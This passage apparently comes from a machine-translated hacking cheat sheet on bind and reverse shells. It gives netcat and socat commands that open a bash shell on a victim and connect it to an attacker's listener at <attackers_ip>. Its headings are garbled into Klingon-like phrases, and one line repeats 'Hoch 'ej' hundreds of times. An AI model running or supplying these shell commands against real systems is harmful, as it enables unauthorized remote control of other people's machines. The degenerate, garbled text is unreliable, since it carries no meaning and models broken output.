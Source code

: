 7. From your own machine, use a tool like Netcat to establish a connection to the target system's IP address and the port specified in the bind shell command: `nc <target_ip> <port>`.

8. Once the connection is established, you will have remote access to the target system's shell.

It is important to note that creating a bind shell without proper authorization is illegal and unethical. This information is provided for educational purposes only.
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337
```
### Qa'Hom 'ej Qa'Hom

#### Reverse shell

A reverse shell is a technique used in hacking to establish a connection between the attacker's machine and the target machine. In a reverse shell scenario, the target machine initiates the connection to the attacker's machine, allowing the attacker to gain remote access and control over the target.

To create a reverse shell, the attacker typically exploits a vulnerability or misconfiguration on the target machine, allowing them to execute arbitrary commands. Once the attacker has gained control, they can use various methods to establish a reverse shell connection.

One common method is to use a command-line tool like `netcat` or `nc` to listen for incoming connections on a specific port. The attacker sets up a listener on their machine and waits for the target machine to connect. Once the connection is established, the attacker can interact with the target machine's shell remotely.

Another method involves using a scripting language like Python or Perl to create a reverse shell payload. The payload is then executed on the target machine, establishing a connection back to the attacker's machine.

Regardless of the method used, it is important for the attacker to ensure that the reverse shell connection is secure and encrypted to prevent detection and interception by network security measures.

#### Qa'Hom 'ej Qa'Hom

#### Qa'Hom 'ej Qa'Hom

Qa'Hom 'ej Qa'Hom Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch 'ej Hoch
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
## Awk
